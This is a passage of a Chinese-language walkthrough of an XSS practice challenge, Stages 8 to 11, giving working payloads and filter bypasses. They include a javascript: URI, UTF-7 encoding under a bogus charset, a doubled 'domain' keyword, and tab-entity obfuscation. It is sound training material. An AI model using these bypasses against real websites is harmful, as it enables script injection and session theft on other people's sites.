 `Hint: the 'javascript' scheme.`

提交后会生成 a 标签, href 为我们输入的参数.

javascript 伪协议.

`javascript:alert(document.domain)`

## Stage 9

`Hint: UTF-7 XSS`

这道题考的是 IE 浏览器遗留的 UTF-7 问题.

当 response 响应头的 Content-Type 未指定 charset 或为错误的 charset 时, IE 浏览器将返回页面中的编码当做 UTF-7 字符串执行.

```
<?php
header('Content-Type: text/html;charset=sb');
?>

+/v8 +ADw-script+AD4-alert(0)+ADw-/script+AD4-
```

IE 访问的时候就会执行弹窗.

以此类推, 题目实体化了尖括号, 引号等字符串, 那就能用 UTF-7 编码然后绕过后端的过滤.

查看源代码, 有个 charset 参数可控, 抓包的时候更改为 UTF-7.

这里好像不能直接输入 `document.domain`, 只能用编码, 记得 urlencode 一下.

`+/v8 +ACI- onmouseover=alert(d+AG8AYw-u+AG0-en+AHQALg-d+AG8AbQBh-in)+AD4-`

## Stage 10

`Hint: s/domain//g;`

测试的时候发现 domain 被替换为空, 但只进行了一次替换.

同样两种方法, on 事件和闭合标签.

`1" onmouseover="alert(document.ddomainomain)`

`"><svg/onload=alert(document.ddomainomain)>`

## Stage 11

`Hint: "s/script/xscript/ig;" and "s/on[a-z]+=/onxxx=/ig;" and "s/style=/stxxx=/ig;"`

script 和 on 事件都被过滤了, 不过还是能用 a 标签.

本来想用 data 协议的, 后来发现并不能弹出 `document.domain` 的值.

浏览器会很神奇的把 tab 去除.

`<a href="j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t:alert(document.domain)">click</a>`

## Stage 12
